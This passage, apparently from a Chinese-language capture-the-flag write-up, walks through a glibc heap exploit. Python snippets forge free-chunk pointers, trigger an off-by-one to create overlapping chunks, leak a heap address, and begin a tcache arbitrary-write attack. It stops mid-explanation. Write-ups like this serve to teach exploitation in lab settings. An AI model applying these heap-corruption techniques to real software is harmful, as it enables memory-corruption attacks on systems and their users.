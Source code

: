 ![](https://raw.githubusercontent.com/4ak5ra/image/main/堆变化.jpg) 

伪造bk
```python
free(6)  #free的chunk 3
free(2)  #free的chunk 0
add(0x410, "a" * 8)  # 2 覆写bk
add(0x410, "a" * 8)  # 6 复原
```
构造fd
```python
free(6)  
free(3)
free(5)   #合并的
 
add(0x4f0, b"b" * 0x488 + p64(0x431))  # 3,分割chunk并覆写fd
add(0x3b0, "a" * 8)  # 5，复原
```
伪造size
```python
free(4) #vitcim的前面那个
 
add(0x108, b"c" * 0x100 + p64(0x550))  # 4。伪造size并触发off by one
add(0x400, "a" * 8)  # 6  让victim变成malloc状态
free(3)  #触发over_lapping
```


## 利用overlapping
因为我们伪造的victim在正常堆块header的上面，所以我们切割一个header的空间就可以让剩下的堆块分配到可控区域。

```python
add(0x10, "a" * 8)  # 3
show(6)
```

此时我们的内存布局是这样  

![](https://raw.githubusercontent.com/4ak5ra/image/main/总.png) 

从左到右依次是重叠前，重叠后，分割后。我们简化一下

![](https://raw.githubusercontent.com/4ak5ra/image/main/内存简化.png)

然后就是传统的overlapping的利用思路了，具体就是不断分割这一大块bin,利用我们可以控制的区域来控制敏感信息，此时我们需要做泄漏heap和任意写两件事 

泄漏heap我们就利用6就行了，再切割一个chunk将其free掉就有heap指针了。
```python
add(0x3f0,b"#"*0x3f0)#8
add(0x60, b'&'*0x18 + p64(0x71)) #9
add(0x3f0,b"a"*8)#10
free(6)
show(8)  #6和8就是同一个chunk
```
构造任意写就要利用tcache attck了，只剩一个chunk4肯定是不够的，那么就再申请一个chunk作为victim，修改chunk4的大小让其在bin中时可以写到victim的header  
